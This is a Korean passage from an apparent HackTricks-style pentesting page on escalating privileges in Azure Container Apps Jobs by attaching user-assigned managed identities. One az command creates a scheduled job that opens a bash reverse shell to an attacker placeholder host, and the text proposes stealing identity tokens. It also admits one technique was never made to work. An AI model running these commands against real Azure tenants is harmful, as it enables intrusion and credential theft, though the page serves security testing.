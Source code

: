 작업의 구성을 수정할 수 있는 권한이 있는 경우, 사용자 할당 관리 ID를 연결할 수 있습니다. 이 ID는 추가 권한(예: 다른 리소스나 비밀에 대한 접근)을 가질 수 있으며, 이를 악용하여 컨테이너 내에서 권한을 상승시킬 수 있습니다.
```bash
az containerapp job update \
--name <job-name> \
--resource-group <res-group> \
--assign-identity <user-assigned-identity-id>
```
### `Microsoft.App/managedEnvironments/read`, `Microsoft.App/jobs/write`, `Microsoft.App/managedEnvironments/join/action`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

새로운 Container Apps Job을 생성(또는 기존의 것을 업데이트)하고 관리되는 ID를 연결할 수 있다면, 권한 상승을 위한 페이로드를 실행하도록 작업을 설계할 수 있습니다. 예를 들어, 리버스 셸을 실행할 뿐만 아니라 관리되는 ID의 자격 증명을 사용하여 토큰을 요청하거나 다른 리소스에 접근하는 새로운 작업을 생성할 수 있습니다.
```bash
az containerapp job create \
--name <new-job-name> \
--resource-group <res-group> \
--environment <environment-name> \
--image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
--user-assigned <user-assigned-identity-id> \
--trigger-type Schedule \
--cron-expression "*/1 * * * *" \
--replica-timeout 1800 \
--replica-retry-limit 0 \
--command "bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'"
```
> [!TIP]
> 이 명령은 `Microsoft.App/jobs/read` 권한이 없으면 오류를 발생시킵니다. 하지만 작업은 생성됩니다.

### `microsoft.app/jobs/start/action`, `microsoft.app/jobs/read`

이 권한으로 작업을 시작할 수 있어야 할 것 같습니다. 이를 통해 작업의 구성 변경 없이 리버스 셸 또는 기타 악성 명령으로 작업을 시작할 수 있습니다.

작동하게 만들지는 못했지만 허용된 매개변수에 따르면 가능해야 합니다.


{{#include ../../../banners/hacktricks-training.md}}
